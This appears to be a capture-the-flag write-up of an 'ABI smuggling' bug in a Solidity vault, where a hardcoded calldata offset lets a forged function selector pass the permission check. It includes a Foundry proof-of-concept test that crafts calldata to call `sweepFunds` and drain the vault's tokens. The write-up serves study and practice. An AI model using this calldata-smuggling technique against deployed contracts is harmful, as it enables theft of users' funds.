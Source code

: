 ## The `execute` function uses a hardcoded offset to read a specific position of the calldata, allowing an attacker to bypass authorization logic and execute non-permitted functions.

The `execute` function aims to verify user permissions before executing an arbitrary function call. It does so by retrieving a function selector from the call data, which is then used in a permission check.

The function uses inline assembly to load the selector from a specific, hardcoded offset within the calldata: `uint256 calldataOffset = 4 + 32 * 3;`. This offset is calculated based on the expected structure of the `execute` function's arguments: 4 bytes for the function selector, 32 bytes for the `target` address, and 32 bytes each for the offset and length of the dynamic `actionData` parameter. On this position, is supposed to be the selector of the function to be called.

An attacker can exploit this fixed offset by crafting a malicious transaction where they "smuggle" a whitelisted function selector into the expected position, effectively lying to the authorization check. The forged selector, (one that the attacker is authorized to use like `withdraw` function), is placed at the `calldataOffset` to satisfy the `permissions[getActionId(...)]` check.

After the check passes, the contract proceeds to call `target.functionCall(actionData)` so the unauthorized function call in `actionData` (`sweepFunds` in this case) is executed.

## PoC
```solidity
    function test_abiSmuggling() public 
    checkSolvedByPlayer 
    {
        bytes memory sweepCall = abi.encodeWithSelector(vault.sweepFunds.selector, player, address(token));
        bytes memory executeCall = abi.encodeWithSelector(
            vault.execute.selector, 
            address(vault), // 32 bytes x1
            sweepCall, // 32 bytes x2
            // ---- THE ATTACK HERE ----
            uint256(1), //  32 bytes x3
            vault.withdraw.selector // This is a function that player is allowed to call, but the real actionData has another parameter
        );
        address(vault).call(executeCall);
        token.transfer(recovery, token.balanceOf(player));
    }
```
